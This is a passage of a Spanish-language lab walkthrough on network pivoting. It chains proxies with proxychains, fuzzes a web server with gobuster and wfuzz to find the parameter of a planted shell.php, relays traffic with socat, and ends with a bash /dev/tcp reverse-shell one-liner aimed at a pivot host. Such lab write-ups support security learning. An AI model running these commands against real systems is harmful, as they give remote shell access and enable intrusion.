 Con esto lo que hacemos es que todo lo que pase por el puerto 3333 lo vaya pasando hasta la maquina atacante y creamos un nuevo socks que lo hemos de añadir al archivo /etc/proxychains4.conf.

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/a82e269f-c32e-469b-9b8c-5085db040f28)

# Maquina 5

Una vez hecho esto vamos hacer un escaneo de puerto de la maquina 50.50.50.3

Encontramos el puerto 80 vamos a ver que hay en la web pero antes vamos a configurar el foxyproxy

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/8e71277d-305e-4b03-b869-f70bc38de7ba)

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/12c31f30-d897-4df7-8207-7541d112899f)

Vemos esto en el interior de la web vamos hacer fuzzing con gobuster a ver si encontramos algo 

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/f6ce0164-a760-45a5-951a-e47fde14cda2)

Vemos un shell.php que no hay nada y un warning.html vamos acceder

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/1299dc28-09ba-42c4-87a8-ab1250aaf482)

Entonces vamos a usar WFUZZ para ver cual es el parametro que falta ahi de la siguente forma

```bash
proxychains wfuzz -c --hh=53 --hc=404 -w usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-  
medium.txt -u "http://50.50.50.3/shell.php?FUZZ=id"
```

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/01148f8c-3eca-43cb-825b-f947cb249940)

Encontramos que el parametro es parameter vamos a ver si es correcto

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/79bc72dc-51fe-4c09-8bb3-fb378f12e33f)

Efectivamente es correcto ahora vamos a configurar para que nos mande una reverse shell pasando por todos los otros pc y que llegue a nuestro pc atacante.

## Ultima configuración

Realmente ya lo tenemos montado lo que nos falta es en la ultima maquina vulnerada la 40.40.40.3 vamos a pasarnos el socat y hacemos lo siguiente
```
./socat tcp-l:4444,fork tcp:40.40.40.2:4444
```

Ahora ya tenemos todo el tunel montado entonces vamos a enviar una reverse shell a nuestra maquina atacante

```
bash -c "bash -i >%26 /dev/tcp/40.40.40.2/4444 0>%261"
```
